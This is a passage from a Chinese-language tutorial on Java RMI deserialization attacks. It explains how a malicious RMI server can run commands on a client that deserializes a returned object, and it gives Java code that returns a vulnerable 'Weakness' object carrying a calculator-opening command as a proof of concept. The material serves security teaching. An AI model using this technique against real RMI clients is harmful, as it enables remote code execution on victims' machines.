 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dG3IRIwCQwibhggQLyM5Fp50P9EK1y9fFZVvLaQhWkZE2J6KpYCzg9vrF4gTZibMON9ib1PS4NT6LBRw/640?wx_fmt=png)

**0x04  服务端攻击客户端**
==================

分析完了客户端对服务端的攻击，我们来看一下 服务端对客户端的攻击，根据第二章 RMI 流程源码分析我们看到了，服务端如果想要攻击客户端，那么利用点就存在客户端反序列话服务端的返回值的时候。这时候需要将环境稍微修改一下。

其实很简单，先修改服务端的代码，我们将 IHello 接口中 sayHello 方法需要的参数删除，然后将返回值类型由 String 修改成 Person 类型。

```
package com.rmitest.inter;

import com.rmitest.impl.Person;

import java.rmi.Remote;
import java.rmi.RemoteException;

public interface IHello extends Remote {
    public Person sayHello()throws RemoteException;
}
```

HelloImpl 也根据接口的要求进行修改

```
package com.rmitest.impl;

import com.rmitest.inter.IHello;
import com.rmitest.weakclass.Weakness;

import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

public class HelloImpl extends UnicastRemoteObject implements IHello {

    public HelloImpl() throws RemoteException {

    }

    @Override
    public Person sayHello() {
        Weakness weakness = new Weakness();
        weakness.setParam("open /Applications/Calculator.app");
        weakness.setName("hack");
        return weakness;
    }
}
```

同客户端攻击服务端时一样，只不过这次变成了服务端这边的 Weakness 类需要继承 Person 类了。

然后客户端这边就修改完毕。

然后我们来修改 rmiregistry 这边的代码，同样先修改 IHello 接口，然后我们需要将 Person 类拷贝到 rmiregistry 这边，不过一般在生产环境中，rmiregistry 和服务端一般都是在同一台机器统一个项目文件里，所以服务端可以访问的类 rmiregistry 同样也可以。
